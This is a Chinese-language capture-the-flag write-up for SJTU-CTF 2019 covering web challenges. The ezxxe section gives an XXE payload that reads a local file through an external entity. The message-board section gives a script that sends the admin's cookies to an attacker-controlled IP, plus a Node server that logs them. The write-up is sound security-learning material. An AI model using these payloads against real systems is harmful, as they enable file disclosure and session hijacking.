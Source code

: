 # SJTU-CTF-2019-Write-Up

先说点闲话，总结一下。这是我第一次参加CTF比赛，也是第一次接触这一方面的知识。为期一周的挑战中，全程现学现卖，最终还是因为没有足够的知识储备和良好的工具而后继无力，止步2451分(Rank: 21)。这一周花费了很多时间在CTF上，~~拖欠了点作业~~，但好久没有这么充实了，而且学到了很多新知识，总的来说还是值得的，期待下一届*SJTU-CTF*！

## Web

### Basic web

按下F12，跟着hint做就可以了。

### ezxxe

题目提供了一个war包作为source code，解压后用*jd*反编译`Main.class`。

在`web.xml`中可以发现/parse路径将由`com.wu.ezxxe.Main`托管。查看反编译后的`Main.java`可以发现/parse路径接受一个post请求，将请求的body解析为xml，将根节点下的某些子节点转化为Map后输出。

通过搜索xml解析的漏洞可以发现*XXE*攻击，~~此时我才知道ezxxe是这个意思~~。

Talk is cheap, show me the code:

```xml
<?xml version="1.0" encoding="utf-8"?>
<!DOCTYPE ctf [<!ENTITY  file SYSTEM "file:///flag/c38b07e91b0c15330e20693ed4443092">]>
<root><ctf>&file;</ctf></root>
```

注：此题有个坑，flag是个目录，`c38b07e91b0c15330e20693ed4443092`不是flag，~~对萌新不大友好~~。

### message board

作为一个萌新刚开始很奇怪为什么会出现`Report to admin if you like`。百思不得其解，只好利用搜索引擎从Chrome 77入手，最终了解了*XSS*攻击，还发现了[external link: XSS-Auditor: the-protector-of-unprotected](https://medium.com/bugbountywriteup/xss-auditor-the-protector-of-unprotected-f900a5e15b7b)。

思路如下：admin会访问一个包含你的report的界面，可在report中注入js获取cookie，利用上面的外部链接中提到的方法可以绕过report页面中删除flag的js代码。

Talk is cheap, show me the code:

`inject.js`:

```javascript
if(location.href.includes('xss'))location.href=`http://xx.xx.xx.xx:9876/?cookie=${JSON.stringify(document.cookie)}`;
```

`server.js`:

```javascript
const http = require('http')
const url = require('url')

http.createServer((req, res) => {
    console.log(JSON.parse(url.parse(req.url, true).query.cookie || "{}"))
    console.log(req.headers)
    res.writeHead(200, { 'Content-Type': 'text/plain' });
    res.end('SJTU-CTF-2019 0ops!')
}).listen(9876)
```
